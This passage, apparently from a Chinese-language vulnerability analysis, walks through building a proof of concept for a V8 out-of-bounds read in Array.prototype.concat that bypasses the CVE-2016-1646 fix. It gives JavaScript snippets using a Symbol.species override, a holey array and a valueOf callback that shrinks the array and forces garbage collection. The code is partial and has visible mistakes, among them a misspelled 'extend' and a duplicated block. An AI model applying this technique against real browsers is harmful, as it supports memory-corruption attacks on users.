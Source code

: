   
2.3.2.1 综合POC构造需要满足所有条件  
  
  
条件1：通过Symbole.species写入一个对象到Array.prototype.concat的返回对象visit中。因为并不是Elements之中Setter和Getter回调，所以可以绕过CVE-2016-1646加上的防护，到达我们期望进入的FOR_WITH_HANDLE_SCOPE循环。  
  
  
条件2：对我们的元素进行配置，可以使代码在返回Array.prototype.concat的对象设置visitor->visit()流程中，走进JSReceiver::CreateDataProperty的Maybe<bool> Object::SetDataProperty处理分支中。  
  
  
条件3：配置的元素写入我们自定义的JS代码。  
  
  
条件4：在自定义的JS代码里将length设置为1，然后触发垃圾回收，达到我们期待的越界读。  
  
  
2.3.2.1 POC的构造：  
  
  
条件1 ：构造Symbol.species重写构造函数，以便在我们的代码走入JSReceiver::CreateDataProperty  
  
  
在Visitor中加入我们指定的对象MyProxy，保证PrototypeArray为TypeArray即可：  
  
  
代码：  
```
      MyProperty = new Float64Array(20);
        class MyArray extend Array{
           static get[Symbol.species](){
           return function(){return PrototypeArray}
       }
     }
```  
  
  
这里发现MyProperty = new Float64Array(20);里面的数组如果太小，不会走进这代码流程，和作者一样用var u32 = new Uint32Array(64);不稳定，会崩溃。  
  
  
条件2：  
  
  
对我们的元素进行配置，可以使代码在返回Array.prototype.concat的对象设置visitor->visit()流程中，走进JSReceiver::CreateDataProperty的Maybe<bool> Object::SetDataProperty处理分支中。  
```
    var A = new MyArray(20);
    A.fill(1.1);
    delete A[1];
```  
  
  
条件3：  
配置的函数写入我们自定义的JS代码。  
  
  
条件4：在自定义的JS代码里将length设置为1，然后触发垃圾回收，达到我们期待的越界读。  
```
       A.__proto__[1]={
           valueOf: function(){
           A.length=1;
           gc();
       }
      }       A.__proto__[1]={
           valueOf: function(){
           A.length=1;
           gc();
       }
      }
```  
  